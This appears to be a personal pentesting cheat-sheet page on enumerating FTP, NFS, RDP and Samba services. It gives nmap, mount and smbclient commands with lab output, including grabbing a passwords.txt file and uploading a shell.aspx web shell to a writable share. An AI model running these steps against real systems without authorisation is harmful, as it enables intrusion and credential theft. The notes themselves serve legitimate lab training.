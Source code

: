 ```yaml
---
title: Services
description: How to pentest different services.
---
```


## FTP (Port 21)

`nmap -p 21 --script=ftp-anon 10.10.174.58`

## RPC (Port 111, 2049, 20048)

Interesting files : `/etc/nfs.conf`, `/etc/fstab` and `/etc/exports`

```bash
$ rpcinfo -p | grep nfs

100003    3   tcp   2049  nfs
100003    4   tcp   2049  nfs
100227    3   tcp   2049  nfs_acl
```

```bash
$ sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.220.222
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 13:48 CET
Nmap scan report for 10.10.220.222
Host is up (0.035s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount:
|_  /var *
| nfs-statfs:
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836532.0  6877096.0  22%   16.0T        32000

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
```

### Show NFS mount

```bash
$ showmount -e 10.10.200.32
Export list for 10.10.200.32:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
$ sudo mkdir /mnt/nfs1
$ sudo mount -t nfs -o rw 10.10.200.32:/home/ubuntu/sharedfolder /mnt/nfs1
$ cd /mnt/nfs1
...
```

## RDP (port 3389)

```bash
$ rdesktop -u <username> -p <password> <ip>
```

GUI using [remmina](https://remmina.org/).

Mount NFS partition :

```
$ sudo mkdir /mnt/ntfs1
$ sudo mount -t nfs 10.10.220.222:/var /mnt/ntfs1
$ cd /mnt/ntfs1
$ ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
```

## Samba
Port 139 and 445

```bash
$ sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.220.222
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 13:35 CET
Nmap scan report for 10.10.220.222
Host is up (0.042s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.220.222\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.220.222\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.220.222\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
```

**3 shares :**

1. `\\10.10.220.222\IPC$`
2. `\\10.10.220.222\anonymous`
3. `\\10.10.220.222\print$`

SMB client for linux (`smbclient`) :

List shares :

```bash
$ smbclient -L 10.10.86.204
Password for [MYGROUP\xanhacks]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
SMB1 disabled -- no workgroup available
```

```bash
$ smbclient -U 'guest' '\\10.10.86.204\nt4wrksv'
Password for [MYGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4932712 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> mput shell.aspx
Put file shell.aspx? y
putting file shell.aspx as \shell.aspx (40.5 kb/s) (average 40.5 kb/s)
```

Recursively download all the files of the share using `smbget -R` :

```bash
$ smbget -R smb://10.10.220.222/anonymous
Password for [xanhacks] connecting to //anonymous/10.10.220.222: <press enter>
Using workgroup WORKGROUP, user xanhacks
smb://10.10.220.222/anonymous/log.txt
Downloaded 11.95kB in 1 seconds
```

